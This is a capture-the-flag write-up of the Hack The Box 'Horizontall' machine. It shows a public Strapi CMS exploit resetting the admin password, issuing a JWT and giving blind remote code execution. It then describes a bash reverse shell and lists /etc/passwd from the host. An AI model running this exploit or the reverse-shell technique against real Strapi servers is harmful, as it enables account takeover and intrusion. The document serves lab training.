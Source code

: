# Exploitation

Use [[searchsploit]] to copy the exploit over to your local system.

Run the exploit.

```
┌──(voldemort㉿voldemort)-[~/…/htb/machines/horizontall/exploit]
└─$ python3 50239.py    
[-] Wrong number of arguments provided
[*] Usage: python3 exploit.py <URL>
```

It requires that we pass it a URL so let's do that.

```                                                                                                                                                                                                                    
┌──(voldemort㉿voldemort)-[~/…/htb/machines/horizontall/exploit]
└─$ python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NDUwODk5LCJleHAiOjE2NDcwNDI4OTl9.ikEfdgEE6NG-Bt80UROrvvr09SH1FmRl9KP4YbmBh4k


$> 
```

We're in so let's start understanding the system and its configuration.

```
$> whoami
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
$> 
```

The message states that this is a [[RCE#Blind RCE | blind RCE]]
so we shouldn't expect to see output. Let's see if we have communication back to our system.

![[Pasted image 20220209190025.png]]

## Reverse Shell
Let's try to generate a reverse shell.

Before we do that, 
we need  to understand how the process on the host is processing our remote commands [[Command Injection]]

![[Pasted image 20220209190548.png]]

Looks like the host is prefixing everything with `sh -c` . This means we'll have limited cpaabilities to generate a reverse shell. If we prefix our own commands with `bash -c`, we should be able to generate a reverse shell fairly easily.

PayloadAllTheThings reference

![[Pasted image 20220209192907.png]]

Awesome!
## Post-Exploitation
With access to the system, let's view the users on the system.

see the users in the home directory.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
developer:x:1000:1000:hackthebox:/home/developer:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
strapi:x:1001:1001::/opt/strapi:/bin/sh
```

Let's keep note of the fact that there is a (mysql) user as well as an (admin) user that has no login allowed. 

Let's see which users have a directory in the home folder.

```
strapi@horizontall:~/myapi$ ls -l /home
ls -l /home
total 4
drwxr-xr-x 8 developer developer 4096 Feb  9 22:33 developer
```

Viewing the files in the `developer` directory, we find the **user.txt** flag.

Let's move on to privilege escalation.
